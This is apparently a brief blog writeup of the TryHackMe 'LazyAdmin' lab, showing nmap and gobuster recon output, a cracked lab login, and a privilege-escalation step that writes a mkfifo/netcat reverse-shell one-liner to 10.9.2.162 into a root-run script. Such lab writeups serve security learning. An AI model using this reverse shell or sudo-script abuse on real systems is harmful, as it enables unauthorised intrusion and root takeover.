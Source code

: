 +++
categories = ["Hugo"]
date = "2020-08-23"
description = "LazyAdmin TryHackMe Writeup"

featuredalt = ""
featuredpath = "date"
linktitle = ""
title = "LazyAdmin TryHackMe Writeup"
slug = "LazyAdmin TryHackMe Writeup"
type = "post"
+++


![LazyAdmin TryHackMe](https://www.sfdcpoint.com/wp-content/uploads/2019/01/Salesforce-Admin-Interview-questions.png)

## Introduction 

Nmap scan 

nmap -sC -sV -oN nmap/initial $ip


```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```


gobuster scan 

```
gobuster dir -u $ip -w /usr/share/dirb/wordlists/common.txt

2020/05/19 17:03:32 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/content (Status: 301)
/index.html (Status: 200)
/server-status (Status: 403)

```
scan the /content

```
gobuster dir -u $ip/content -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

2020/05/19 17:07:27 Starting gobuster
===============================================================
/images (Status: 301)
/js (Status: 301)
/inc (Status: 301)
/as (Status: 301)
/_themes (Status: 301)
/attachment (Status: 301)

```

search for vuln

searchsploit sweetrice

cat the backup vuln there is the link of mysql backup

read the file there will be a password (encrypted) 

crack from crackstation

then login



username: manager
passwd : Password123


echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.2.162 5554 >/tmp/f' >/etc/copy.sh

then start the listner on host 5554

start the backup.pl as sudo   {sudo /usr/bin/perl /home/itguy/backup.pl}

cd /root/
cat root.txt
